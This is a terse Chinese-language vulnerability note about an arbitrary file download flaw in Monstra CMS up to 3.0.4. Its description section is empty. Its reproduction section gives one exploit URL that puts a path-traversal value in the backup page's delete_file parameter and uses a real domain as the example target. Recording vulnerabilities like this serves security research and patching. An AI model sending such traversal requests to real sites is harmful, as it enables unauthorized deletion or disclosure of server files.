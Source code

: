 # Monstra CMS 任意文件下载漏洞

## 一、漏洞简介

## 二、漏洞影响

Monstra CMS <= 3.0.4

### 三、复现过程

```
http://www.baidu.com/admin/index.php?id=backup&delete_file=/.......//./.......//./index.php&token=f6
```